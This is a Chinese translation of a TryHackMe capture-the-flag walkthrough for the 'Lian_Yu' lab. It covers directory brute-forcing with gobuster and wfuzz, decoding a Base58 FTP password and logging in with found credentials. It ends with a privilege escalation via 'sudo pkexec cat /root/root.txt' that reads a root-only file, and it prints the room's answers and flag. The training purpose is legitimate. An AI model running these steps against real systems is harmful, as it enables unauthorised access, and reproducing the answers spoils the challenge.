# Lian _ Yu-TryHackMe 作者:Karthikeyan

> 原文：<https://infosecwriteups.com/lian-yu-ae415d1f6fc7?source=collection_archive---------3----------------------->

## 初级安全挑战


# 任务 1 —找到旗帜

1.  部署虚拟机并启动枚举
2.  你找到的网页目录是什么？

```
Hint: gobuster dir -e -u [http://10.10.26.241/](http://10.10.26.241/) -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```



Ctrl + A



```
Ans: 2100
```

3.你找到的文件名是什么？

使用 wfuzz 查找文件名

```
wfuzz -u [http://10.10.99.170/island/2100/FUZZ.ticket](http://10.10.99.170/island/2100/FUZZ.ticket) -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c — hc 404
```



```
Ans: green_arrow.ticket
```

4.FTP 密码是什么？

破译密码



看起来像 Base58



```
Ans: !#th3h00d
```

5.带 SSH 密码的文件名是什么？

让我们使用找到的凭证在 Ftp 中登录并下载文件，

```
Username: Vigilante
Password: !#th3h00d
```



让我们提取信息！！！

使用 GHex 让我们修复损坏的 PNG 文件



我们找到了两个文件 password.txt 和 shado。关隘在沙多

```
Ans: shado
```

6.user.txt

让我们通过找到的凭证登录，

```
Username: slade
password: M3tahuman
```



```
Ans: THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N’T}
```

7.root.txt

让我们使用 pkexec 来查看根目录中的 root.txt，使用命令

```
sudo /usr/bin/pkexec cat /root/root.txt
```



感谢您的阅读！！！

黑客快乐！！

```
Author - Karthikeyan N | Cyberw1ng
```

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！